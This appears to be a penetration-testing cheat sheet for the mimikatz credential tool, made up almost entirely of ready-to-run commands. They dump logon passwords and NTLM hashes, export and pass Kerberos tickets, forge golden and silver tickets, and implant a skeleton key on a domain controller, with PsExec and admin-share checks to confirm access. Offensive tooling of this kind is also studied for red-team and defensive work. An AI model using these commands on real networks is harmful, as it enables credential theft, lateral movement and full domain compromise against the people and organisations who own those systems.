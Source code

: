 # mimikatz

* [PowerShellMafia/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

## check

```bash
privilege::debug
# Privilege '20' OK => Working properly
```

## dump password / hashes

```bash
# dump logon users pass
sekurlsa::logonpasswords

# dump hashes
lsadump:sam
lsadump::lsa [/inject | /patch]
# hashcat -m 1000 <hash>
```

## elevate shell integrity

```bash
# use when using evil-winrm, we get medium integrity shells
token::elevate
```

## Pass-the-ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# PTT using admin .kirbi 
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

## Golden / Silver Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: [krbtgt | DOMAIN_ADMIN_ACCOUNT | SERVICE_ACCOUNT] 

# create golden ticket and pass-the-ticket
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500 /ptt
# create silver ticket and pass-the-ticket
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103 /ptt

# check
misc::cmd
dir \\IP\c$ [/user:USER PASS]
PsExec.exe \\IP cmd.exe

```

## kerberos Skeleton Key

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```